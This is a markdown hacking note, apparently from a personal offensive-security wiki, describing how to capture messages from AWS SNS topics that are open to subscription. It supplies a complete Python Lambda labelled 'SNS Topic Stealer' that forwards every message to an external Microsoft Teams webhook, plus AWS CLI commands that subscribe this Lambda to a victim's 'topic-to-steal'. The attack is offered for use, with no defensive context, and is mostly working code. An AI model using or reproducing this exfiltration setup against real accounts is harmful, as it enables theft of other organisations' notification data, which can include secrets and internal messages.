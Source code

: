 ```yaml
---
is: "[[note]]"
of: "[[hacking aws]]"
---
```

# Notes
Hacking AWS SNS

## Exploiting open SNS topics
If SNS topics are open to be subscribed to, it's fairly easy to connect that via a webhook into a chat program to capture.
* Create a [lambda function](https://aws.amazon.com/premiumsupport/knowledge-center/sns-lambda-webhooks-chime-slack-teams/) that accepts SNS events and forwards them to your chat webhook of choice.

This example uses Microsoft Teams, sending each SNS message in a [pretty card](https://docs.microsoft.com/en-us/microsoftteams/platform/webhooks-and-connectors/how-to/connectors-using?tabs=cURL#send-adaptive-cards-using-an-incoming-webhook) format
```
import urllib3 
import json
http = urllib3.PoolManager()
webhook_url = ""

def lambda_handler(event, context): 
    for sns_message in event['Records']:
        # Chat message in Microsoft Teams adaptive card webhook format
        chat_message = {
          "type": "message",
          "attachments": [
            {
              "contentType": "application/vnd.microsoft.card.adaptive",
              "contentUrl": None,
              "content": {
                "$schema": "http://adaptivecards.io/schemas/adaptive-card.json",
                "type": "AdaptiveCard",
                "version": "1.0",
                "body": [
                  {
                    "type": "Container",
                    "items": [
                      {
                        "type": "TextBlock",
                        "text": "SNS Topic Stealer",
                        "weight": "bolder",
                        "size": "medium"
                      },
                      {
                        "type": "FactSet",
                        "facts": [
                          {
                            "title": "MessageId:",
                            "value": sns_message['Sns']['MessageId']
                          },
                          {
                            "title": "TopicArn:",
                            "value": sns_message['Sns']['TopicArn']
                          },
                          {
                            "title": "Subject:",
                            "value": sns_message['Sns']['Subject']
                          },
                          {
                            "title": "Message:",
                            "value": sns_message['Sns']['Message']
                          }
                        ]
                      }
                    ]
                  }
                ]
              }
            }
          ]
        }
        encoded_msg = json.dumps(chat_message).encode('utf-8')
        resp = http.request('POST', webhook_url, body=encoded_msg)
        print({
            "message": event['Records'][0]['Sns']['Message'], 
            "status_code": resp.status, 
            "response": resp.data
        })
```

* Edit the webhook url, save the lambda, and test with a SNS Notification test message
* Give the target account permissions to invoke the lambda via SNS

```
aws lambda add-permission --function-name arn:aws:lambda:us-east-1:123456789012:my-lambda-stealer \
--source-account 123456789012 \
--statement-id sns-to-lambda-1 --action "lambda:InvokeFunction" \
--principal sns.amazonaws.com
```

* Subscribe to the topic using AWS CLI, changing the topic and lambda ARNs

```
aws sns subscribe \
--topic-arn arn:aws:sns:us-east-1:123456789012:topic-to-steal \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:321456789666:my-lambda-stealer
```

* Test to see if messages arrive
